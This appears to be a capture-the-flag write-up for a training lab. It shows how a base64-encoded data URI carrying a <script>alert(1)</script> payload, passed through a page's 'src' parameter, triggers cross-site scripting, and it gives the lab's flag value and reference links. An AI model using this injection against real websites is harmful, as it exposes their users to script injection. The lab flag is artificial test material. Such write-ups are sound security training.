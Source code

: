 # BASIC XSS

## Flag
```
928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

## Discovery
On the page http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

```
Encrypt the script and put it in the link value
``` 
Base64(<script>alert(1)</script>) = PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

Enter *decripted script* in the name input.

```
data:[mediatype][;base64],data
```

data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

## Use
> Data URI is a clever method of inserting tiny files inline in HTML texts. Instead of referring to a file kept locally on the server, the file is delivered as a base64-encoded string of data prefixed by a mime-type inside the URL itself.

## Documentation
- [Base64 - Decode/Encode](https://https://www.base64decode.org/)
- [What is Cross-Site Scripting (XSS) Off-Domain – Data URI Vulnerability?](https://zofixer.com/what-is-cross-site-scripting-xss-off-domain-data-uri-vulnerability/)
[Data URLs](https://wiki.zacheller.dev/web-app-pentest/xss/data-urls)
- [Web Security Lens](https://https://www.websecuritylens.org/tag/xss/)
---
